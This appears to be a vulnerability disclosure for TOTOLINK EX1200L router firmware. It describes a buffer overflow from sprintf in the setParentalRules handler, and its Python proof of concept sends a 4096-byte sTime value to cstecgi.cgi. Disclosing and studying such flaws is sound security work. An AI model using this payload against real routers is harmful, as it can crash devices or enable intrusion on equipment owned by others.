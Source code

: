 ## Overview

- Manufacturer's website information：https://www.totolink.net/
- Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/217/ids/36.html

## Affected version

EX1200L_Firmware V9.3.5u.6146_B20201023

## Vulnerability details

In the EX1200L_Firmware V9.3.5u.6146_B20201023 firmware has a buffer overflow vulnerability in the `setParentalRules` function. The `v7, v8, v9` variable receives the `week, sTime, eTime` parameter from a POST request. However, since the user can control the input of `week, sTime, eTime`, the `sprintf` can cause a buffer overflow vulnerability.

![image-20240723210721750](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240723210721750.png)

## POC

```python
import requests
url = "http://127.0.0.1/cgi-bin/cstecgi.cgi"
cookie = {"Cookie":"SESSION_ID=2:1721039211:2"}
data = {
"topicurl":"setParentalRules",
"sTime":"b"*0x1000,
}
response = requests.post(url, cookies=cookie, json=data)
print(response.text)
print(response)
```

![image-20240721012919451](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240721012919451.png)
